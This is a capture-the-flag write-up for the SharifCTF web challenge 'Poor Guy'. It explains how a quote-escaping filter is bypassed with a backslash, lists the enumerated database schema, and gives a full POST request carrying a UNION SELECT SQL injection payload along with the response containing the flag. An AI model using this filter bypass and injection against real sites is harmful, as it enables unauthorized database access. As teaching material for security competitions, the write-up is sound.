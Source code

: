 # Poor Guy (web, 150p)

URL : http://ctf.sharif.edu:8086/index.php

![](./screenshot.png)

SQL Injection with single quote replacing ' (single-quote) into \' , so by sending \' it gets replaced into \\' , which will treat backslash as non-special sign and quote as special. After making some enumeration we have found out some more details about DB : 

```
database : book_shop
table : books 
some of the columns :
	book_id
	book_name
	book_serial
	book_isbn
	book_cover
	is_premium
```

Therefore , performing POST request :
```
POST /index.php HTTP/1.1
Host: ctf.sharif.edu:8086
[...]

book_selection=\' or true UNION SELECT 1,2,3,4,5,6,book_serial,8 FROM book_shop.books LIMIT 1 OFFSET 5; #
```

we obtain flag SharifCTF{931b20ec7700a61e5d280888662757af} in the response :
```
[...]
<img src="SharifCTF{931b20ec7700a61e5d280888662757af}" class="img-rounded img-responsive" style="width:100%" alt="Rounded Image">
[...]
```
